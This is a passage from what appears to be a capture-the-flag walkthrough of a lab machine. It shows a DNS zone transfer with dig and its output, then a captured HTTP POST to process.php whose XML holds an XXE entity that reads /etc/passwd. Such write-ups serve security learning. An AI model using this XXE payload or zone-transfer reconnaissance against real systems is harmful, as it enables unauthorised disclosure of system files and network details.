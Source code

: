 If we add **hackers.blackhat.local** to /etc/hosts, we'll be disappointed because it's a not a thing. I'm not sure if that's deliberate or not (I think so, hence the line about *some subdomains*); we want to use DIG per the hint - did you get it?:

``
dig axfr @192.168.1.88 blackhat.local
``

{% highlight shell %}
; <<>> DiG 9.16.15-Debian <<>> axfr @192.168.1.88 blackhat.local
; (1 server found)
;; global options: +cmd
blackhat.local.         10800   IN      SOA     blackhat.local. hackerkid.blackhat.local. 1 10800 3600 604800 3600
blackhat.local.         10800   IN      NS      ns1.blackhat.local.
blackhat.local.         10800   IN      MX      10 mail.blackhat.local.
blackhat.local.         10800   IN      A       192.168.14.143
ftp.blackhat.local.     10800   IN      CNAME   blackhat.local.
hacker.blackhat.local.  10800   IN      CNAME   hacker.blackhat.local.blackhat.local.
mail.blackhat.local.    10800   IN      A       192.168.14.143
ns1.blackhat.local.     10800   IN      A       192.168.14.143
ns2.blackhat.local.     10800   IN      A       192.168.14.143
www.blackhat.local.     10800   IN      CNAME   blackhat.local.
blackhat.local.         10800   IN      SOA     blackhat.local. hackerkid.blackhat.local. 1 10800 3600 604800 3600
;; Query time: 4 msec
;; SERVER: 192.168.1.88#53(192.168.1.88)
;; WHEN: Fri Aug 20 06:59:46 EDT 2021
;; XFR size: 11 records (messages 1, bytes 353)
{% endhighlight %}

So we've got **hackerkid.blackhat.local**. Probably should check that out; add it to /etc/hosts.

## hackerkid.blackhat.local
If we head over to this page, we find a form to register an account. We can enter some data (note the form doesn't actually do any registration) and if we capture the request then we can see there is XML being POSTed to **process.php**. This is vulnerable to XXE like so:

{% highlight html %}
POST /process.php HTTP/1.1
Host: hackerkid.blackhat.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 282
Origin: http://hackerkid.blackhat.local
Connection: close
Referer: http://hackerkid.blackhat.local/

<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
<root><name>asdas</name><tel>1234</tel><email>&xxe;</email><password>password</password></root>
{% endhighlight %}

